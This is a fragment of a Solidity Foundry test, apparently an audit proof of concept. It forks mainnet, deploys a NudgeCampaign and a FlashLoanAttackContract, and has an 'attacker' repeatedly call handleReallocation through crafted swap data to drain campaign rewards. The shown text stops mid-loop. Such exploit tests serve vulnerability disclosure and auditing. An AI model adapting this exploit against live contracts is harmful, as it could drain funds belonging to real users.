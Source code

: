 ```

  FlashLoanAttackContract flashLoanAttackContract;
  address attacker = makeAddr("Attacker");
  uint256[] pIDsWithOne = [1];

  function setUp() public {
    vm.createSelectFork(MAINNET_RPC_URL);

    owner = msg.sender;

    factory = new NudgeCampaignFactory(treasury, nudgeAdmin, operator, SWAP_CALLER);

    campaignAddress = factory.deployCampaign(
      holdingPeriodInSeconds,
      address(DAI),
      address(WETH),
      REWARD_PPQ,
      campaignAdmin,
      0,
      alternativeWithdrawalAddress,
      RANDOM_UUID
    );
    campaign = NudgeCampaign(payable(campaignAddress));

    flashLoanAttackContract = new FlashLoanAttackContract(campaign);

    vm.deal(campaignAdmin, 10 ether);

    deal(address(WETH), campaignAdmin, 10_000_000e18);

    vm.prank(campaignAdmin);
    WETH.transfer(campaignAddress, INITIAL_FUNDING);
  }

  function deployCampaign(address DAI_, address WETH_, uint256 rewardPPQ_) internal returns (NudgeCampaign) {
    campaignAddress = factory.deployCampaign(
      holdingPeriodInSeconds, DAI_, WETH_, rewardPPQ_, campaignAdmin, 0, alternativeWithdrawalAddress, RANDOM_UUID
    );
    campaign = NudgeCampaign(payable(campaignAddress));

    return campaign;
  }

function test_attackReallocationTest() public {
    uint256 count;
      uint256 toAmount = 300_768e18;
    deal(address(DAI), attacker, toAmount);

    while (campaign.claimableRewardAmount() > 6000e18) {
      pIDsWithOne[0] = count + 1;
      bytes memory dataToCall = abi.encodeWithSelector(
        campaign.handleReallocation.selector, RANDOM_UUID, address(SWAP_CALLER), address(DAI), toAmount, ""
      );
      bytes32 transactionId = keccak256(abi.encode(DAI, block.timestamp, tx.origin));
      LibSwap.SwapData[] memory swapData = new LibSwap.SwapData[](1);
      swapData[0] =
        LibSwap.SwapData(address(campaign), address(campaign), address(DAI), address(DAI), toAmount, dataToCall, false);

      uint256 gasStart = gasleft();
```